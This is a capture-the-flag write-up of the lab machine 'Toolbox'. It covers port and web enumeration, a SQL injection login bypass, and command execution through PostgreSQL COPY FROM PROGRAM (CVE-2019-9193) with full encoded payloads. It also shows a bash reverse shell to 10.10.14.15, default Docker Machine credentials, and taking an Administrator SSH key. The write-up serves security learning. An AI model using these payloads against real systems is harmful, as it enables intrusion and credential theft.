

## Overview

Toolbox is a Windows Server 2019 Standard box running Docker Machine with a container hosting a website on Apache/PostgreSQL. Initial foothold was obtained via sql injection to get a reverse shell on the container. Default credentials were used for further access onto the VM hosting Docker Machine and from there I was able to obtain the Administrator's ssh key to log in as administrator on the Windows box.

## Enumeration

**Software**

* Windows Server 2019 Standard

* FileZilla ftpd

* OpenSSH for_Windows_7.7 (protocol 2.0)

* Apache httpd 2.4.38 ((Debian))

* Linux version 4.14.154-boot2docker / Debian 10

**Open Ports**

```
nmap -vv --reason -Pn -sT -A --osscan-guess -p- -oN results/10.10.10.236/scans/_full_tcp_nmap.txt
```

* 21/tcp - ftp

* 22/tcp - ssh 

* 135/tcp - Windows RPC

* 139/tcp - netbios-ssn

* 443/tcp - https

* 445/tcp - smb

* 5985/tcp - WinRM 

* 47001/tcp - Microsoft HTTPAPI httpd 2.0 

* 49664-69/tcp - Microsoft Windows RPC

**File/folder brute force**

```
gobuster dir -u https://10.10.10.236 --no-tls-validation -w ~/tools/SecLists/Discovery/Web-Content/raft-large-words.txt -x php,html -t 10Whatweb Report
```

* index.hml

* about.html

* index.html

* contact.html

* blog.html

* industries.html

```
WhatWeb report for https://10.10.10.236:443
Status    : 200 OK
Title     : MegaLogistics
IP        : 10.10.10.236
Country   : RESERVED, ZZ

Summary   : HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], JQuery[3.3.1], HTML5, Script, Bootstrap[4.1.3], Apache[2.4.38]

Detected Plugins:
[ Apache ]
        The Apache HTTP Server Project is an effort to develop and 
        maintain an open-source HTTP server for modern operating 
        systems including UNIX and Windows NT. The goal of this 
        project is to provide a secure, efficient and extensible 
        server that provides HTTP services in sync with the current 
        HTTP standards. 

        Version      : 2.4.38 (from HTTP Server Header)
        Google Dorks: (3)
        Website     : http://httpd.apache.org/

[ Bootstrap ]
        Bootstrap is an open source toolkit for developing with 
        HTML, CSS, and JS. 

        Version      : 4.1.3
        Version      : 4.1.3
        Website     : https://getbootstrap.com/

[ HTML5 ]
        HTML version 5, detected by the doctype declaration 


[ HTTPServer ]
        HTTP server header string. This plugin also attempts to 
        identify the operating system from the server header. 

        OS           : Debian Linux
        String       : Apache/2.4.38 (Debian) (from server string)

[ JQuery ]
        A fast, concise, JavaScript that simplifies how to traverse 
        HTML documents, handle events, perform animations, and add 
        AJAX. 

        Version      : 3.3.1
        Website     : http://jquery.com/

[ Script ]
        This plugin detects instances of script HTML elements and 
        returns the script language/type. 

HTTP Headers:
        HTTP/1.1 200 OK
        Date: Fri, 20 Aug 2021 19:39:52 GMT
        Server: Apache/2.4.38 (Debian)
        Last-Modified: Tue, 18 Feb 2020 06:51:26 GMT
        ETag: "5755-59ed419c2b780-gzip"
        Accept-Ranges: bytes
        Vary: Accept-Encoding
        Content-Encoding: gzip
        Content-Length: 3570
        Connection: close
        Content-Type: text/html
```

## Steps (User)

After reviewing the nmap results I poke around on the ftp server. I was able to log on anonymously but the only file there was docker-toolbox.exe.

```
ftp 10.10.10.236
```



I ran the usual smbclient -L and smbmap commands but was unable to connect to the shares.

I moved on to the website and was presented with the MegaLogistics web page, showing a container ship - at this point I started to get the hint that this box would eal with containers. 


The page itself didn't contain anything useful but I did find that the CN for the TLS cert was admin.megalogistic.com. I added this to my /etc/hosts file and browsed to that site.


Browsing to admin.megalogistic.com brought me to a login page. 



Doing some basic testing an error appeared which shows the site may be vulnerable to sql injection and that also postgres appears to be used on the back end.



> **Warning**: pg_query(): Query failed: ERROR: unterminated quoted string at or near "''' AND password = md5('');" LINE 1: SELECT * FROM users WHERE username = ''' AND password = md5(... ^ in **/var/www/admin/index.php** on line **10**  
> 
> **Warning**: pg_num_rows() expects parameter 1 to be resource, bool given in **/var/www/admin/index.php** on line **11**

I was able to log in as the administrator by injecting a SQL query that always returns true.  To break this down a little bit the original query is used to check if username exists and password matches an md5 hash, and if it does access is granted (because the query returns TRUE)

> SELECT * FROM users WHERE username = [username] AND password = md5([md5hash])

Because I'm injecting into the username paramter and using comments (-- - makes postgres ignore anything after the text), I was able to bypass the md5 check and force the query to return TRUE, which allowed me access to the site.

> SELECT * FROM users WHERE username = sixstringacks' OR 1 = 1; -- - (the AND Password = ... part is ignored)

```
sixstringacks' OR 1 = 1; -- -
```

Unfortunately there wasn't much to the dashboard page and it didn't lead to anything useful.



I decided to run sqlmap to perform a little more comprehensive test against the login page, and it identified that stacked queries were possible.



I re-ran sqlmap with the --os-cmd parameter which allows for os commands to be executed. First I tried ping, but I wasn't getting a response so I tried setting up a simple python http server listening on port 80 and used curl to make a command back to my box on port 80 - that worked. 

```
sudo python3 -m http.server 80
proxychains sqlmap -r login.req --os-cmd "curl -X GET http://10.10.14.15/callback"
```



I decided I wanted to take a more manual approach. 

> I came across this [blog](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5) which explains how a vulnerability ([CVE-2019-9193](https://nvd.nist.gov/vuln/detail/CVE-2019-9193)) can be exploited to gain arbitrary code execution. The code excution stems from new functionality that was added to Postgres that allows any user in the "pg_execute_server_program" group to run arbitrary OS commands - think xp_cmdshell.  

Using the commands referenced in the blog, I used Burp suite to execute them one at a time, once again using curl to see if I could get a call back to my box and was successful.

```
username=%27%3bDROP+TABLE+cmd_exec--&password=
username=%27%3bCREATE+TABLE+cmd_exec(cmd_output+text)--&password=
username=%27%3bCOPY+cmd_exec+FROM+PROGRAM+'curl+-X+GET+http%3a//10.10.14.15/callback2'--&password=
username=%27%3bSELECT+*+FROM+cmd_exec--&password=
username=%27%3bDROP+TABLE+IF+EXISTS+cmd_exec--&password=
```



Now that I had command execution I could try creating a reverse shell. I started a netcat listener on port 80 and changed the third post request to use 'bash -c "bash -i >& /dev/tcp/10.10.14.15/80 0>&1"' and received a callback.

```
username=%27%3bCOPY+cmd_exec+FROM+PROGRAM+%27bash+-c+%22bash+-i+>%26+/dev/tcp/10.10.14.15/80+0>%261%22%27--&password=
```



## Steps (root/system)

I confirmed my suspicious of this machine running a docker container by grepping /proc/self/cgroup for docker. Control groups, or cgroups, is a kernel feature that limits and isolates the cpu, memory, disk I/O and network usage of processes.

```
grep :/docker /proc/self/cgroup 
```



Running 'uname -a' shows that this container is running a boot2docker image. I did an internet search for this and I came across a [github](https://github.com/boot2docker/boot2docker) page that references docker-toolbox (as seen on the ftp site). This works by leveraging Virtual Box to host "Docker Machine" which runs tiny-core linux and is used to manage and create containers. 

Reading through the documentation I found a default username and password (docker:tcuser). I decided to test them out on the Docker Machine. Looking at the network configuration this machine's IP was 172.17.0.2 which means the management box was most likely 172.17.0.1, so I gave it a shot and it worked.



The home folders didn't contain anything interesting so I spent some time reviewing the configuration. The mount command showed something interesting considering the initial enumation told me this was a windows box, /c/users was mounted.



I browsed to that path and listed the contents of C:\Users on the windows box that's hosting Docker Machine and from here I was able to access the root flag.



Taking this a step further I noticed that the Administrator folder contained a folder called .ssh. In that folder were what looked like ssh keys, which I'm used to seeing on linux boxes. I remembered from initial enumeration that OpenSSH was running...I output the private key to the screen and copied it to my box.



I was able to successfully authenticate using the ssh key and log in as administrator on the windows host.


